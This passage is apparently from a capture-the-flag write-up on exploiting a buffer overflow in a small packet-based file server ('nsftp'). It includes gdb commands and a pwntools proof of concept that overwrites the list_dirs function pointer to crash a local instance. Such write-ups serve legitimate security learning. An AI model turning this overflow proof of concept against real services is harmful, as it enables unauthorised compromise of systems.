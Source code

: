 Looking at what we can overwrite shows that we can overwrite the function pointers of the functions that parse the packets.

![](https://i.imgur.com/N7pBtfb.png)

## Exploitation
With this knowledge, I wrote a poc to overwrite the `list_dirs` function pointer with invalid data to cause a crash and started up a local instance in gdb to examine the crash. The size of the `dir_name` buffer was 0x80 bytes, so the next bytes after will corrupt the `list_dirs` function pointer. 

I put a break point on the address below to stop gdb right before executing my corrupt function pointer.

![](https://i.imgur.com/YxtBqPk.png)

To set my breakpoint, I used the following gdb-gef commands:
```
set follow-fork-mode child
start
pie b *0x2eac
c
```
Then ran the poc, sending the `list_dirs` packet twice, once to overwrite the function pointer and the second the trigger the corrupt function pointer:
```python
from pwn import *
import binascii
context.binary = elf = ELF("./nsftp")
def make_pkt(opcode,data):
	pkt = b""
	pkt+= opcode
	pkt+= b"\x00"
	pkt+= b"\x00"*7
	pkt+= bytes([len(data)])
	pkt+= data
	pkt_len = len(pkt)
	l = list(pkt)
	l[1] = pkt_len
	pkt = bytes(l)
	return pkt
io = remote("127.0.0.1",1337)
io.readuntil(b"v0.1")
header_pkt = make_pkt(b"\x02",b"gang-gang")

payload =b""
payload += b"A"*0x80
payload += b"B"*8

ls_pkt = make_pkt(b"\x03",payload)
io.send(ls_pkt)
# Trigger it
io.send(ls_pkt)

io.interactive()
```
